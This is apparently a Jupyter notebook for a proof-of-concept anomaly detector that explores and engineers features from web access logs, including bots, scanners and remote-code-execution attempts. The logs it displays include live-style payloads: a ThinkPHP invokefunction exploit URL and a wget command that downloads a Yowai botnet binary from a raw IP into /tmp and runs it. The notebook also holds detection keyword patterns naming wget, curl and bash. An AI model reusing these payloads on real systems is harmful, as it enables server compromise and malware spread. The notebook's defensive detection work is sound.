## POC of Project

In [1]:
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns

In [2]:
df = pd.read_csv("../data/raw/web_server_access_logs.csv" , nrows=100000)
df.sample(5)

,ip,time,method,url,protocol,status,size,referrer,user_agent,extra,no,label,type
625,5.115.54.117,2019-01-22 00:29:09+00:00,GET,/image/63600/productModel/200x200,HTTP/1.1,200,5681,https://www.zanbil.ir/m/browse/fryer/سرخ-کن,Mozilla/5.0 (Android 8.0.0; Mobile; rv:62.0) G...,-,960,0,benign
52000,31.56.70.159,2019-01-22 04:12:08+00:00,GET,/static/images/amp/blog.png,HTTP/1.1,200,3863,https://www.zanbil.ir/m/product/8248/10330/یخچ...,Mozilla/5.0 (Linux; Android 5.1.1; SAMSUNG SM-...,-,78489,0,benign
71974,217.146.208.34,2019-01-22 04:32:54+00:00,GET,/image/64819/productModel/100x100,HTTP/1.1,200,2320,https://www.zanbil.ir/product/30173/59821/مایک...,Mozilla/5.0 (Windows NT 6.1; rv:63.0) Gecko/20...,-,101511,0,benign
55597,178.252.129.2,2019-01-22 04:16:00+00:00,GET,/static/images/guarantees/warranty.png,HTTP/1.1,200,5807,https://www.zanbil.ir/,Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.3...,-,82660,0,benign
22355,5.237.18.117,2019-01-22 03:00:31+00:00,GET,/image/13272/productType/240x180,HTTP/1.1,200,11393,https://www.zanbil.ir/m/browse/medicine-and-he...,Mozilla/5.0 (Linux; Android 5.1.1; SM-T285 Bui...,-,39157,0,benign


In [3]:
df.info()

<class 'pandas.DataFrame'>
RangeIndex: 100000 entries, 0 to 99999
Data columns (total 13 columns):
 #   Column      Non-Null Count   Dtype
---  ------      --------------   -----
 0   ip          100000 non-null  str  
 1   time        100000 non-null  str  
 2   method      100000 non-null  str  
 3   url         100000 non-null  str  
 4   protocol    100000 non-null  str  
 5   status      100000 non-null  int64
 6   size        100000 non-null  int64
 7   referrer    100000 non-null  str  
 8   user_agent  100000 non-null  str  
 9   extra       100000 non-null  str  
 10  no          100000 non-null  int64
 11  label       100000 non-null  int64
 12  type        100000 non-null  str  
dtypes: int64(4), str(9)
memory usage: 9.9 MB


In [4]:
df.duplicated().sum()

np.int64(0)

##### No Dublicated values found

---

In [5]:
df.describe()

,status,size,no,label
count,100000.000000,100000.00000,100000.000000,100000.000000
mean,206.551140,11600.44833,72894.517660,0.000510
std,32.975237,25751.86264,37440.047201,0.022578
min,200.000000,0.00000,2.000000,0.000000
25%,200.000000,2108.00000,43561.750000,0.000000
50%,200.000000,4011.00000,76151.500000,0.000000
75%,200.000000,8544.00000,104855.250000,0.000000
max,502.000000,912896.00000,132763.000000,1.000000


In [6]:
print(df['label'].value_counts(normalize=True)*100)


label
0    99.949
1     0.051
Name: proportion, dtype: float64


In [7]:
# check values of 'type'

print(df['type'].value_counts())


type
benign      99949
bot            43
rce             4
scanning        4
Name: count, dtype: int64


In [8]:
# save 100k data
df.to_csv("../data/raw/access_logs_100k")

### Protocol column analysis

In [9]:
# analyse protocol column

df['protocol'].value_counts()

protocol
HTTP/1.1                                                                                                          99989
HTTP/1.0                                                                                                              8
'wget http://185.244.25.221/bins/Yowai.x86 -O /tmp/Yowai; chmod 777 /tmp/Yowai; /tmp/Yowai Yowai.x86' HTTP/1.1        3
Name: count, dtype: int64

In [10]:
df[(df['type'] != 'benign') & 
   (df['protocol']!='HTTP/1.1')
     & (df['protocol']!='HTTP/1.0')
     ]

,ip,time,method,url,protocol,status,size,referrer,user_agent,extra,no,label,type
8966,178.47.232.191,2019-01-22 01:24:22+00:00,GET,/index.php?s=/index/\thinkpp/invokefunction&f...,'wget http://185.244.25.221/bins/Yowai.x86 -O ...,400,166,-,Yowai/2.0,-,14593,1,rce
18566,188.19.139.184,2019-01-22 02:36:53+00:00,GET,/index.php?s=/index/\thinkpp/invokefunction&f...,'wget http://185.244.25.221/bins/Yowai.x86 -O ...,400,166,-,Yowai/2.0,-,32544,1,rce
23564,42.112.163.67,2019-01-22 03:06:36+00:00,GET,/index.php?s=/index/\thinkpp/invokefunction&f...,'wget http://185.244.25.221/bins/Yowai.x86 -O ...,400,166,-,Yowai/2.0,-,41178,1,rce


In [11]:
df_anomaly = df[df['label']==1]
len(df_anomaly)

51

### Describe 'size'

In [12]:
print(f" max_bytes_size: {df['size'].max()}")
print(f" min_bytes_size: {df['size'].min()}")
print(f" avg_bytes_size: {df['size'].mean()}")

 max_bytes_size: 912896
 min_bytes_size: 0
 avg_bytes_size: 11600.44833


In [13]:
print("Number of Unique Values in each column")
print(f"time:{df['time'].nunique()}")
print(f"url:{df['url'].nunique()}")
print(f"ip:{df['ip'].nunique()}")
print(f"user agent:{df['user_agent'].nunique()}")
print(f"method:{df['method'].nunique()}")
print(f"referrer:{df['referrer'].nunique()}")

Number of Unique Values in each column
time:12761
url:24617
ip:4487
user agent:1816
method:4
referrer:3307


## compare distributions, benign vs anomaly


In [14]:
anomaly = df[df['label']==1]
normal = df[df['label']==0]


print(f"anomalies status:{anomaly['status'].value_counts(normalize=True)*100}")
print("-"*20)
print(f"normal status code:{normal['status'].value_counts(normalize=True)*100}")

anomalies status:status
200    52.941176
301    35.294118
400     7.843137
404     3.921569
Name: proportion, dtype: float64
--------------------
normal status code:status
200    95.453681
302     1.601817
301     1.080551
404     0.996508
499     0.400204
304     0.388198
403     0.062032
408     0.010005
500     0.003002
400     0.002001
502     0.002001
Name: proportion, dtype: float64


- **301 (redirect)** appears in 35% of anomalies but only 1% of benign traffic - that's a massive signal. Anomalous traffic is ~33x more likely to trigger a redirect than normal traffic.

- **400 (bad request)** appears in 7.8% of anomalies vs 0.002% of benign , almost 4000x more likely. Even though it's only 4 rows, this is a strong signal because it's so rare in normal traffic.

- **200 (success)** is actually less common proportionally in anomalies (53%) than in benign (95%) , so anomalies succeed less often relatively, not more.

In [15]:
# check proportion of each request type
for t in ['bot', 'rce', 'scanning']:
    subset = df[df['type'] == t]
    print(t, ":")
    print((subset['status'].value_counts(normalize=True) * 100).round(1))
    print()

bot :
status
200    62.8
301    37.2
Name: proportion, dtype: float64

rce :
status
400    100.0
Name: proportion, dtype: float64

scanning :
status
301    50.0
404    50.0
Name: proportion, dtype: float64



In [16]:
# rce
df[df['type'] == 'rce'][['type' , 'ip', 'url' , 'size' , 'user_agent' , 'time']]

,type,ip,url,size,user_agent,time
8966,rce,178.47.232.191,/index.php?s=/index/\thinkpp/invokefunction&f...,166,Yowai/2.0,2019-01-22 01:24:22+00:00
16855,rce,151.25.29.64,/login.cgi?cli=aa aa';wget http://217.61.5.226...,166,Solstice/2.0,2019-01-22 02:25:47+00:00
18566,rce,188.19.139.184,/index.php?s=/index/\thinkpp/invokefunction&f...,166,Yowai/2.0,2019-01-22 02:36:53+00:00
23564,rce,42.112.163.67,/index.php?s=/index/\thinkpp/invokefunction&f...,166,Yowai/2.0,2019-01-22 03:06:36+00:00


In [17]:
# scanning
df[df['type'] == 'scanning'][['type' , 'ip', 'url' , 'size' , 'user_agent' , 'time']]

,type,ip,url,size,user_agent,time
10481,scanning,196.64.216.172,/wp-login.php,178,Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) G...,2019-01-22 01:36:13+00:00
10484,scanning,196.64.216.172,/wp-login.php,494594,Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) G...,2019-01-22 01:36:14+00:00
23516,scanning,110.23.220.125,/wp-login.php,178,Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) G...,2019-01-22 03:06:07+00:00
23530,scanning,110.23.220.125,/wp-login.php,493276,Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) G...,2019-01-22 03:06:14+00:00


In [18]:
# normal
df[df['type'] == 'benign'][['type' , 'ip', 'url' , 'size' , 'user_agent' , 'time']].head()

,type,ip,url,size,user_agent,time
0,benign,31.56.96.51,/image/60844/productModel/200x200,5667,Mozilla/5.0 (Linux; Android 6.0; ALE-L21 Build...,2019-01-22 00:26:16+00:00
1,benign,31.56.96.51,/image/61474/productModel/200x200,5379,Mozilla/5.0 (Linux; Android 6.0; ALE-L21 Build...,2019-01-22 00:26:16+00:00
2,benign,91.99.72.15,/product/31893/62100/سشوار-خانگی-پرنسلی-مدل-PR...,41483,Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:16...,2019-01-22 00:26:17+00:00
3,benign,178.253.33.51,/m/product/32574/62991/ماشین-اصلاح-صورت-پرنسلی...,20406,Mozilla/5.0 (Linux; Android 5.1; HTC Desire 72...,2019-01-22 00:26:19+00:00
4,benign,91.99.72.15,/product/10075/13903/مایکروفر-رومیزی-سامسونگ-م...,41725,Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/53...,2019-01-22 00:26:19+00:00


In [19]:
# bot
df[df['type'] == 'bot'][['type' , 'ip', 'url' , 'size' , 'user_agent' , 'time']]

,type,ip,url,size,user_agent,time
236,bot,216.244.66.248,/robots.txt,178,Mozilla/5.0 (compatible; DotBot/1.1; http://ww...,2019-01-22 00:27:28+00:00
238,bot,216.244.66.248,/robots.txt,64,Mozilla/5.0 (compatible; DotBot/1.1; http://ww...,2019-01-22 00:27:30+00:00
1305,bot,74.6.168.162,/robots.txt,178,Mozilla/5.0 (compatible; Yahoo! Slurp; http://...,2019-01-22 00:32:46+00:00
1306,bot,74.6.168.162,/robots.txt,64,Mozilla/5.0 (compatible; Yahoo! Slurp; http://...,2019-01-22 00:32:48+00:00
2798,bot,213.174.147.83,/robots.txt,178,Apache-HttpClient/4.5.3 (Java/1.8.0_101),2019-01-22 00:43:08+00:00
2799,bot,213.174.147.83,/robots.txt,94,Apache-HttpClient/4.5.3 (Java/1.8.0_101),2019-01-22 00:43:08+00:00
3809,bot,95.216.2.253,/robots.txt,64,Mozilla/5.0 (compatible; MJ12bot/v1.4.8; http:...,2019-01-22 00:49:39+00:00
4410,bot,207.241.231.165,/robots.txt,178,Mozilla/5.0 (compatible; archive.org_bot +http...,2019-01-22 00:55:10+00:00
5225,bot,46.225.135.218,/robots.txt,94,Mozilla/5.0 (Windows NT 10.0; Win64; x64) Appl...,2019-01-22 01:02:10+00:00
7359,bot,216.244.66.248,/robots.txt,178,Mozilla/5.0 (compatible; DotBot/1.1; http://ww...,2019-01-22 01:13:22+00:00


* **Bot:** 200 (62.8%) + 301 (37.2%)
→ Bots detection are mostly successful, so we can't depend on status only for anomaly detection.
* **RCE:** 400 (100%)
→ RCE attempts ko server reject/invalid request samajh raha hai. Strong signal hai ke malicious payload server-side validation se block ho raha hai.
* **Scanning:** 301 (50%) + 404 (50%)
→ Scanner different/non-existent URLs hit kar raha hai. 404 especially useful signal hai; 301 redirects bhi scanning behavior ke saath appear ho rahe hain.

### Check proxy

In [20]:

df['has_proxy_ip'] = (df['extra'] != '-').astype(int)
df['has_proxy_ip'].value_counts()

has_proxy_ip
0    99807
1      193
Name: count, dtype: int64

### Extract features from 'user_agent'

In [21]:
import re
import pandas as pd


def extract_ua_features(ua):

    ua = str(ua)

    # -------------------------
    # Basic
    # -------------------------
    ua_length = len(ua)

    # -------------------------
    # Browser
    # -------------------------
    if re.search(r'Firefox/', ua, re.I):
        browser_family = "Firefox"
    elif re.search(r'Edg/', ua, re.I):
        browser_family = "Edge"
    elif re.search(r'Chrome/', ua, re.I):
        browser_family = "Chrome"
    elif re.search(r'Safari/', ua, re.I) and not re.search(r'Chrome/', ua, re.I):
        browser_family = "Safari"
    else:
        browser_family = "Other"

    # -------------------------
    # Operating System
    # -------------------------
    if re.search(r'Windows', ua, re.I):
        os_family = "Windows"
    elif re.search(r'Android', ua, re.I):
        os_family = "Android"
    elif re.search(r'iPhone|iPad|iOS', ua, re.I):
        os_family = "iOS"
    elif re.search(r'Linux', ua, re.I):
        os_family = "Linux"
    elif re.search(r'Mac OS|Macintosh', ua, re.I):
        os_family = "MacOS"
    else:
        os_family = "Unknown"

    # -------------------------
    # Mobile
    # -------------------------
    is_mobile = int(bool(
        re.search(r'Mobile|Android|iPhone|iPad', ua, re.I)
    ))

    # -------------------------
    # Bot / crawler
    # -------------------------
    bot_keywords = r'bot|crawler|spider|slurp|archiver|crawl'

    has_bot_keyword = int(bool(
        re.search(bot_keywords, ua, re.I)
    ))

    # -------------------------
    # Automated / non-browser client
    # -------------------------
    automated_keywords = (
        r'wget|curl|python-requests|python|java|httpclient|'
        r'yowai|solstice'
    )

    is_automated_client = int(bool(
        re.search(automated_keywords, ua, re.I)
    ))

    # -------------------------
    # Return features
    # -------------------------
    return {
        "ua_length": ua_length,
        "browser_family": browser_family,
        "os_family": os_family,
        "is_mobile": is_mobile,
        "has_bot_keyword": has_bot_keyword,
        "is_automated_client": is_automated_client
    }

In [22]:
# concatinate to dataframe
ua_features = df['user_agent'].apply(extract_ua_features)
df = pd.concat([df , ua_features.apply(pd.Series)] , axis=1)

# one hot encoding for ML

df = pd.get_dummies(df, columns=['browser_family', 'os_family'], dtype=int)

### Datetime Conversion

In [23]:
df['time'] = pd.to_datetime(df['time'])
df['time'].dtype


datetime64[us, UTC]

### Feature Extraction from 'time'

In [24]:
# sort values chronologically
df = df.sort_values(['time', 'ip']).reset_index(drop=True)

**Anomaly Detection Significance:**

*  Bots/Spam: Low Time gap (< 0.1 sec).

* Normal User: High Time gap(2.0 - 10.0 sec).

### Request per minute

In [25]:
df['minute'] = df['time'].dt.floor('min')

requests_per_min = (
    df.groupby(['minute', 'ip'])
      .size()
      .reset_index(name='requests_per_min')
)

df['requests_per_min'] = df.groupby([df['time'].dt.floor('min'), 'ip'])['ip'].transform('count')

#### check hour of day or weekend

In [26]:
df['hour_of_day'] = df['time'].dt.hour
df['is_weekend'] = df['time'].dt.dayofweek.isin([5, 6]).astype(int)
df['is_night_time'] = df['hour_of_day'].between(0, 5).astype(int)

In [27]:
(df=='-').sum()

ip                            0
time                          0
method                        0
url                           0
protocol                      0
status                        0
size                          0
referrer                  14660
user_agent                  468
extra                     99807
no                            0
label                         0
type                          0
has_proxy_ip                  0
ua_length                     0
is_mobile                     0
has_bot_keyword               0
is_automated_client           0
browser_family_Chrome         0
browser_family_Firefox        0
browser_family_Other          0
browser_family_Safari         0
os_family_Android             0
os_family_Linux               0
os_family_MacOS               0
os_family_Unknown             0
os_family_Windows             0
os_family_iOS                 0
minute                        0
requests_per_min              0
hour_of_day                   0
is_weeke

#### Convert 'Referrer' to int

In [28]:
df['has_referrer'] = (df['referrer'] != '-').astype(int)
df['has_referrer'].value_counts()

has_referrer
1    85340
0    14660
Name: count, dtype: int64

### Extract Features for 'url'

In [29]:
# import library
from urllib.parse import urlparse

def extract_url_features(url):
    url = str(url)
    # parse url
    parsed = urlparse(url)

    # url length
    url_length = len(url)

    # path
    path = parsed.path
    path_length = len(path)

    # query
    query = parsed.query

    has_query_string = int(bool(query))

    # -----------
    # number of query parameters
    if query:
        number_of_query_parameters = len(query.split('&'))
    else:
        number_of_query_parameters = 0

    # number of path segments
    segment = [part for part in path.split('/') if part]
    number_of_path_segments = len(segment)

    # suspicious/common endpoint keywords
    has_admin = int('admin' in path.lower())

    has_login = int('login' in path.lower())

    has_api = int('api' in path.lower())

    return {
        'url_length': url_length,
        'path_length': path_length,
        'number_of_query_parameters': number_of_query_parameters,
        'has_query_string': has_query_string,
        'number_of_path_segments': number_of_path_segments,
        'has_admin': has_admin,
        'has_login': has_login,
        'has_api': has_api
    }

#### Apply on DataFrame

In [30]:
url_features = df['url'].apply(extract_url_features)
url_features = url_features.apply(pd.Series)
df = pd.concat([df, url_features] , axis=1)



### Feature Extraction from 'status'

In [31]:
# categorize status codes
success_codes = [200, 201, 202, 204]

redirect_codes = [301, 302, 303, 307, 308]

client_issue_codes = [
    400, 401, 403, 404, 405, 408, 409, 410, 411, 413, 415, 422, 429
]

server_issue_codes = [
    500, 501, 502, 503, 504, 505
]

In [32]:
df['is_success'] = df['status'].isin(success_codes).astype(int)
df['is_redirect'] = df['status'].isin(redirect_codes).astype(int)
df['is_client_issue'] = df['status'].isin(client_issue_codes).astype(int)
df['is_server_issue'] = df['status'].isin(server_issue_codes).astype(int)

In [33]:
df['size'].describe()

count    100000.00000
mean      11600.44833
std       25751.86264
min           0.00000
25%        2108.00000
50%        4011.00000
75%        8544.00000
max      912896.00000
Name: size, dtype: float64

### Extract feature from 'method'

In [34]:
from pandas.api.types import CategoricalDtype


# 1. Define all HTTP possible methods 

all_possible_methods = [
    'GET',
    'POST',
    'PUT',
    'PATCH',
    'DELETE',
    'HEAD',
    'OPTIONS',
    'CONNECT',
    'TRACE'
]


# 2. Normalize method values


original_method = df['method'].astype(str).str.upper().str.strip()


# 3. Detect unknown/unrecognized methods

df['is_unknown_method'] = (
    ~original_method.isin(all_possible_methods)
).astype(int)


# 4. Define Pandas categorical type

method_type = CategoricalDtype(
    categories=all_possible_methods , ordered=False
)


# 5. Convert method column to categorical

df['method'] = original_method.astype(method_type)



In [35]:
# 6. One-hot encode methods for ML

df = pd.get_dummies(
    df,
    columns=['method'],
    prefix='method',
    dtype=int
)

In [36]:
print(df.shape)

(100000, 55)


### Extract Columns from 'Protocol' 

In [37]:
import pandas as pd

# 1. Standard Protocol Version Extraction
standard_protocols = ['HTTP/1.1', 'HTTP/1.0', 'HTTP/2', 'HTTP/3']

# Normalize string
clean_protocol = df['protocol'].astype(str).str.strip()

# 2. Extract Clean HTTP Version (Extracts HTTP/X.X pattern if embedded)
df['extracted_http_version'] = clean_protocol.str.extract(r'(HTTP/\d\.\d)', expand=False).fillna('UNKNOWN')

# 3. Security Feature Engineering (Anomaly Indicators)
# Flag 1: Is protocol malformed/non-standard?
df['is_malformed_protocol'] = (~clean_protocol.isin(standard_protocols)).astype(int)

# Flag 2: Shell / Command Injection Detection
command_keywords = r'wget|curl|chmod|bin|bash|sh|/tmp/|;'
df['has_command_injection'] = clean_protocol.str.contains(command_keywords, case=False, regex=True).astype(int)

# Flag 3: Legacy Protocol Indicator (HTTP/1.0 is often suspicious in modern apps)
df['is_legacy_protocol'] = (clean_protocol == 'HTTP/1.0').astype(int)

In [38]:
df.shape

(100000, 59)

### Extract Feature from 'size'


In [39]:
# make 'size' as normal distribution

df['size_log'] = np.log1p(df['size'])

# check '0' size

df['is_zero_size'] = (df['size'] == 0).astype(int)

# use threshhold to check large size

size_threshold = df['size'].quantile(0.99)

df['is_large_size'] = (
    df['size'] > size_threshold
).astype(int)

### Feature Extraction by Merging Different Columns
#### ip+time

In [40]:
# 1. Requests per minute per IP

df['requests_per_min'] = (
    df.groupby([
        df['time'].dt.floor('min'),
        'ip'
    ])['ip']
    .transform('count')
)


# 2. Requests per second per IP

df['requests_per_sec'] = (
    df.groupby([
        df['time'].dt.floor('s'),
        'ip'
    ])['ip']
    .transform('count')
)


# 3. Time gap between consecutive requests from same IP


df = df.sort_values(['ip', 'time'])

df['time_since_previous_request'] = (
    df.groupby('ip')['time']
      .diff()
      .dt.total_seconds()
)


# check if it is first request
# Binary Flag + Zero Fill
df['is_request_first'] = df['time_since_previous_request'].isna().astype(int)

# zero fill
df['time_since_previous_request'] = df['time_since_previous_request'].fillna(0)


#### ip+url

In [41]:
# 1. Number of unique URLs accessed by each IP
df['unique_urls_per_ip'] = (
    df.groupby('ip')['url']
      .transform('nunique')
)


# 2. Number of requests made to the same URL by the same IP
df['requests_per_url_per_ip'] = (
    df.groupby(['ip', 'url'])['url']
      .transform('count')
)


# 3. Ratio of unique URLs to total requests for that IP
df['unique_url_ratio_per_ip'] = (
    df['unique_urls_per_ip'] /
    df.groupby('ip')['url'].transform('count')
)

#### ip+status

In [42]:
# Total requests made by each IP
df['total_requests_per_ip'] = (
    df.groupby('ip')['ip'].transform('count')
)

# 4xx requests per IP
df['client_errors_per_ip'] = (
    df.groupby('ip')['is_client_issue'].transform('sum')
)

# 5xx requests per IP
df['server_errors_per_ip'] = (
    df.groupby('ip')['is_server_issue'].transform('sum')
)

# 2xx/successful requests per IP
df['success_requests_per_ip'] = (
    df.groupby('ip')['is_success'].transform('sum')
)

# Overall error rate per IP
df['error_rate_per_ip'] = (
    (df['client_errors_per_ip'] + df['server_errors_per_ip'])
    / df['total_requests_per_ip']
)

# Success rate per IP
df['success_rate_per_ip'] = (
    df['success_requests_per_ip']
    / df['total_requests_per_ip']
)

#### ip+user_agent

In [43]:
df['unique_ua_per_ip'] = (
    df.groupby('ip')['user_agent'].transform('nunique')
)

In [44]:
# how many automated-looking requests that IP generated
df['automated_requests_per_ip'] = (
    df.groupby('ip')['is_automated_client'].transform('sum')
)

#### ip+size

In [45]:
# data generate/transfer per ip
df['total_size_per_ip'] = (
    df.groupby('ip')['size'].transform('sum')
)

df['avg_size_per_ip'] = (
    df.groupby('ip')['size'].transform('mean').round(2)
)

df['max_size_per_ip'] = (
    df.groupby('ip')['size'].transform('max')
)

#### method+url
👉`'method'` has been is converted to one_hot encoding so reconstruct it to Original Categorical Column (method_recovered) to combine it with other features.

In [46]:
# reconstruction

method_columns = [
    'method_GET',
    'method_POST',
    'method_PUT',
    'method_PATCH',
    'method_DELETE',
    'method_HEAD',
    'method_OPTIONS',
    'method_CONNECT',
    'method_TRACE'
]

df['method_recovered'] = (
    df[method_columns]
    .idxmax(axis=1)
    .str.replace('method_', '', regex=False)
)

In [47]:
# combine method and url

df['method_url'] = (
    df['method_recovered'] + '_' + df['url'].astype(str)
)

df['requests_per_method_url'] = (
    df.groupby('method_url')['method_url']
      .transform('count')
)

#### ip+time+url

In [48]:
# requests_per_url_per_ip_per_min
df['requests_per_ip_url_per_min'] = (
    df.groupby([
        df['time'].dt.floor('min'),
        'ip',
        'url'
    ])['url']
    .transform('count')
)

In [49]:
df['requests_per_ip_url_per_min'].max()

np.int64(15)

#### ip+time+size

In [50]:
df['bytes_per_ip_per_min'] = (
    df.groupby([
        df['time'].dt.floor('min'),
        'ip'
    ])['size']
    .transform('sum')
)

#### ip+time+status

In [51]:
df['errors_per_ip_per_min'] = (
    df.groupby([
        df['time'].dt.floor('min'),
        'ip'
    ])['is_client_issue']
    .transform('sum')
)

#### ip+method

#### Scraper / Directory Fuzzing Ratio

In [52]:
df['scanner_threat_score'] = df['unique_urls_per_ip'] * df['error_rate_per_ip']

In [53]:
df['scanner_threat_score'].describe()

count    100000.000000
mean          0.746180
std           4.408607
min           0.000000
25%           0.000000
50%           0.000000
75%           0.000000
max          56.514768
Name: scanner_threat_score, dtype: float64

#### SQLi / Injection Payload on Sensitive Endpoints

In [54]:
df['sensitive_endpoint_attack'] = (
    (df['has_admin'] | df['has_api'] | df['has_login']) & 
    (df['has_command_injection'] | (df['number_of_query_parameters'] > 3))
).astype(int)

#### Rate Limit Violation (DDoS / Automated Flood)

In [55]:
df['high_rate_automated_traffic'] = df['is_automated_client'] * df['requests_per_sec']

### Drop Raw Features

In [56]:
drop_cols = [
    'ip', 'time', 'url', 'protocol', 'status', 'referrer', 'user_agent',
    'extra', 'no', 'minute', 'size',              # size_log replaces raw size
    'method_recovered', 'method_url',              # transient helpers, method_url = high-cardinality text combo
    'extracted_http_version'                       # still text, weak signal anyway
]
df_clean = df.drop(columns=drop_cols)

### Find Correlation



In [57]:
numeric_df = df_clean.select_dtypes(include=['int64', 'float64', 'bool']).drop(columns=['label'], errors='ignore')

corr = numeric_df.corr()

plt.figure(figsize=(20, 16))
